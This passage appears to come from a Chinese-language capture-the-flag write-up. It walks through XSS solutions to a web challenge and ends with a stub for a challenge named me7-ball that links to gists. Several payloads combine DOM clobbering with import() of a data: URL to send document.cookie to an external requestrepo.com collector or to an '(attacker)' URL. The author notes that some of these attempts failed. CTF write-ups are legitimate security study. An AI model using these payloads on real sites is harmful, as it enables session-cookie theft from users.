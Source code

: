 ![image-20220405091502391](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-4a5398c993ce336e11d2a8240f14f6669661f171.png)

方法二：

拼接成：`import('data:text/javascript,alert(1)')`

```javascript
display name:
"+import(m)+"

title:
</script><a id=x href="//iv8mapzv.requestrepo.com"></a>

content:
<a id=m href="data:text/javascript,open(x+'?'+document.cookie);alert()"></a>
```

不知道为啥没带出cookie，后来想了一下，可能是cookie拼接在后面的问题？

![image-20220405095127485](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-a8e97600ae5b020ab30a9c0a6be517d0ddb95762.png)

但是给他倒过来，拼接在前面又直接收不到请求了，我不理解

```javascript
display name:
"+import(m)+"

title:
</script><a id=x href="iv8mapzv.requestrepo.com"></a>

content:
<a id=m href="data:text/javascript,open('//'+document.cookie+'.'+x);alert()"></a>
```

还有一种方法，也没试成功，原因跟上面应该类似:

```php
display name : <!--<script>"}/* title : --> /* content : */ location.href='(attacker)/c='+document.cookie
```

`https://gist.github.com/mdsnins/d8028c47212342ecadd9af5ec10f53f9`

0x06 me7-ball
=============

找不到题目附件，看着跟密码有关

`https://gist.github.com/mdsnins/2912b9656c837e5190364136b307c682`